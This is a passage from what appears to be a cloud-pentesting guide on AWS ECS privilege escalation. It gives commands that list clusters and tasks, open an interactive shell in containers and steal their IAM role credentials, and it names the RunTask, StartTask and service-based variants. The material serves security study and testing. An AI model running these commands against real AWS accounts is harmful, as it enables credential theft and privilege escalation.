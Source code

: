 ```bash
aws ecs run-task --task-definition iam_exfiltration \
    --cluster arn:aws:ecs:us-east-1:947247140022:cluster/ecs-takeover-ecs_takeover_cgidc6fgpq6rpg-cluster \
    --launch-type EC2

# You will need to do 'apt update' and 'apt install docker.io' to install docker in the rev shell
```

### `ecs:ExecuteCommand`, `ecs:DescribeTasks,`**`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**

An attacker with the **`ecs:ExecuteCommand`, `ecs:DescribeTasks`** can **execute commands** inside a running container and exfiltrate the IAM role attached to it (you need the describe permissions because it's necessary to run `aws ecs execute-command`).\
However, in order to do that, the container instance need to be running the **ExecuteCommand agent** (which by default isn't).

Therefore, the attacker cloud try to:

- **Try to run a command** in every running container

```bash
# List enableExecuteCommand on each task
for cluster in $(aws ecs list-clusters | jq .clusterArns | grep '"' | cut -d '"' -f2); do
   echo "Cluster $cluster"
   for task in $(aws ecs list-tasks --cluster "$cluster" | jq .taskArns | grep '"' | cut -d '"' -f2); do
      echo "  Task $task"
      # If true, it's your lucky day
      aws ecs describe-tasks --cluster "$cluster" --tasks "$task" | grep enableExecuteCommand
   done
done

# Execute a shell in a container
aws ecs execute-command --interactive \
   --command "sh" \
   --cluster "$CLUSTER_ARN" \
   --task "$TASK_ARN"
```

- If he has **`ecs:RunTask`**, run a task with `aws ecs run-task --enable-execute-command [...]`
- If he has **`ecs:StartTask`**, run a task with `aws ecs start-task --enable-execute-command [...]`
- If he has **`ecs:CreateService`**, create a service with `aws ecs create-service --enable-execute-command [...]`
- If he has **`ecs:UpdateService`**, update a service with `aws ecs update-service --enable-execute-command [...]`

You can find **examples of those options** in **previous ECS privesc sections**.

**Potential Impact:** Privesc to a different role attached to containers.

### `ssm:StartSession`

